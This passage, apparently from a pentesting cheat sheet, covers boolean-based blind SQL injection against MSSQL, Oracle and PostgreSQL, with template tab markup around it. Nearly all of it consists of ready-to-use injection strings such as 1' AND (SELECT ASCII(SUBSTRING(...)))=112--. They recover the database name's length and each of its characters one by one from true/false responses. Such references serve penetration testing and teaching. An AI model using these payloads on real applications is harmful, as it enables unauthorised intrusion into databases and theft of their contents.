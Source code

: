 Second, retrieve the database name:

```sql
--True -> It means the first character is p. Note that ASCII code is in decimal
1' AND (SELECT ASCII(SUBSTRING(DB_NAME(), 1, 1)))=112-- 

--True -> It means the second character is s.
1' AND (SELECT ASCII(SUBSTRING(DB_NAME(), 2, 1)))=115--

--True -> It means the third character is s.
1' AND (SELECT ASCII(SUBSTRING(DB_NAME(), 3, 1)))=115--
```
{% endtab %}

{% tab title="OracleSQL" %}
First, retrieve the database length:

```sql
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--  #False  
1' AND (SELECT LENGTH(global_name) FROM global_name)=2--  #False
1' AND (SELECT LENGTH(global_name) FROM global_name)=3--  #True -> It means the length of database is 3 characters.
```

Second, retrieve the database name:

```sql
--True -> It means the first character is p. Note that ASCII code is in decimal
1' AND (SELECT ASCII(SUBSTR(global_name, 1, 1)) FROM global_name)=112-- 

--True -> It means the second character is s.
1' AND (SELECT ASCII(SUBSTR(global_name, 2, 1)) FROM global_name)=115--

--True -> It means the third character is s.
1' AND (SELECT ASCII(SUBSTR(global_name, 3, 1)) FROM global_name)=115--
```
{% endtab %}

{% tab title="PostgreSQL" %}
First, retrieve the database length:

```sql
1' AND (SELECT LENGTH(current_database()))=1--  #False  
1' AND (SELECT LENGTH(current_database()))=2--  #False
1' AND (SELECT LENGTH(current_database()))=3--  #True -> It means the length of database is 3 characters.
```

Second, retrieve the database name:

```sql
--True -> It means the first character is p. Note that ASCII code is in decimal
1' AND (SELECT ASCII(SUBSTRING(current_database(), 1, 1)))=112-- 

--True -> It means the second character is s.
1' AND (SELECT ASCII(SUBSTRING(current_database(), 2, 1)))=115--

--True -> It means the third character is s.
1' AND (SELECT ASCII(SUBSTRING(current_database(), 3, 1)))=115--
```
{% endtab %}
